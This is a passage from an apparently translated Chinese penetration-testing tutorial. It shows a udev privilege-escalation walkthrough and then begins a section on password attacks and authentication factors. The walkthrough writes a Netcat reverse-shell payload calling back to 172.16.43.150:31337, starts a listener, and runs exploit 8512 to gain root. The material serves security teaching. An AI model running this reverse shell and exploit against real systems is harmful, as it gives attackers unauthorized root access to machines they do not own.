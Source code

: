 您还可以通过发出以下命令获取`udev`服务 PID`1`：

```
ps aux | grep udev
```

以下命令行屏幕截图是前面命令的结果：

![](img/161d8c29-c038-4bbe-9f59-81a642284182.png)

在实际的渗透测试中，您可能希望设置一台与目标具有相同内核版本的测试机器来测试该漏洞。

从我们在受害者机器上收集的信息，我们知道这台机器安装了 Netcat。一旦漏洞运行，我们将使用 Netcat 连接回我们的机器，以便让我们以 root 用户身份访问受害者机器。根据攻击源代码信息，我们需要将有效负载保存在一个名为`run`的文件中：

```
echo '#!/bin/bash' > run echo '/bin/netcat -e /bin/bash 172.16.43.150 31337' >> run
```

我们还需要通过发出以下命令在攻击机器上启动 Netcat 侦听器：

```
nc -vv -l -p 31337
```

剩下要做的一件事是使用所需参数运行漏洞利用：

```
./8512.c 2675
```

在我们的攻击机器中，我们可以看到以下消息：

![](img/f178e1ca-9f8c-46dc-86da-db2de856fa83.png)

发出`whoami`命令后，我们可以看到我们已经成功地将权限升级到 root。

# 密码攻击工具

密码目前用作向系统验证用户身份的主要方法。在用户提交正确的用户名和密码后，系统将允许用户登录并根据授予该用户名的授权访问其功能。

以下三个因素可用于对身份验证类型进行分类：

*   **你知道的东西**：这通常被称为认证的第一要素。密码属于此类型。理论上，这一因素只应由授权人员知道。事实上，这一因素很容易被泄露或捕获；因此，不建议使用此方法对敏感系统的用户进行身份验证。
*   **您拥有的东西**：这通常被称为身份验证的第二个因素，该因素的示例包括安全令牌和卡。向系统证明您具有身份验证因素后，您就可以登录了。这一因素的缺点是容易导致克隆过程。
*   **你是什么**：这通常被称为认证的第三要素，例如生物特征和视网膜扫描。这个因素是最安全的，但是已经有一些针对这个因素的公开攻击。

为了更安全，人们通常使用不止一个因素。最常见的组合是使用认证的第一和第二个因素。由于这种组合使用两种身份验证因素，因此通常称为两种身份验证因素。

不幸的是，根据我们的渗透测试经验，基于密码的身份验证仍然被广泛使用。作为渗透测试人员，您应该在渗透测试过程中检查密码安全性。
